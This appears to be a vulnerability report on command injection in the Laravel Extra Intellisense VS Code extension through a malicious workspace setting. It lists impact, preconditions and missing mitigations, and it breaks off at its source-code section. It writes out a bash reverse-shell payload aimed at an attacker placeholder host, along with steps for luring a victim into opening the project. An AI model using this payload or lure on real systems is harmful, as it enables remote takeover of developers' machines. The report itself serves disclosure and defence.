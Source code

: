 ## Vulnerability List for Laravel Extra Intellisense Extension

* Vulnerability Name: **Command Injection via `phpCommand` configuration**
    * Description:
        The `LaravelExtraIntellisense.phpCommand` setting in the extension's configuration allows users to specify the command used to execute PHP code. This command is used by the extension to run Laravel commands in order to gather autocompletion data. If a user is tricked into opening a workspace containing a malicious `.vscode/settings.json` file that modifies this setting to include shell command injection payloads, an attacker can achieve Remote Code Execution (RCE) on the victim's machine when the extension attempts to use this command.

        Steps to trigger the vulnerability:
        1. An attacker creates a malicious Laravel project with a `.vscode/settings.json` file.
        2. In the `.vscode/settings.json`, the attacker sets the `LaravelExtraIntellisense.phpCommand` configuration to a malicious command, for example: `"LaravelExtraIntellisense.phpCommand": "bash -c '{code}; bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1'"` (where `ATTACKER_IP` and `ATTACKER_PORT` are controlled by the attacker).
        3. The attacker convinces a victim to clone and open this malicious Laravel project in VSCode with the Laravel Extra Intellisense extension installed.
        4. When the extension activates and attempts to run any Laravel command (e.g., to fetch routes, views, configs, etc.), it will use the malicious `phpCommand`.
        5. The injected command within `phpCommand` will be executed by the system shell, in addition to the intended PHP code represented by `{code}`. In the example above, this will establish a reverse shell connection to the attacker's machine.

    * Impact:
        Remote Code Execution (RCE). An attacker can gain full control over the victim's machine, potentially leading to data theft, malware installation, or further attacks.

    * Vulnerability Rank: critical

    * Currently implemented mitigations:
        None. The extension directly uses the configured `phpCommand` without any sanitization or validation.

    * Missing mitigations:
        - Input sanitization and validation for the `LaravelExtraIntellisense.phpCommand` setting. The extension should validate or sanitize the user-provided command to prevent injection of arbitrary shell commands.
        - Warn users about the security risks of modifying extension settings, especially when opening workspaces from untrusted sources.
        - Consider restricting the characters or commands allowed in `phpCommand` to a safe subset.
        - Explore alternative safer methods to execute PHP code, potentially within a sandboxed environment, or using safer APIs if available.

    * Preconditions:
        - Victim has the Laravel Extra Intellisense extension installed in VSCode.
        - Victim opens a workspace in VSCode that contains a malicious `.vscode/settings.json` file.
        - The malicious `.vscode/settings.json` file configures `LaravelExtraIntellisense.phpCommand` with a command injection payload.

    * Source code analysis:
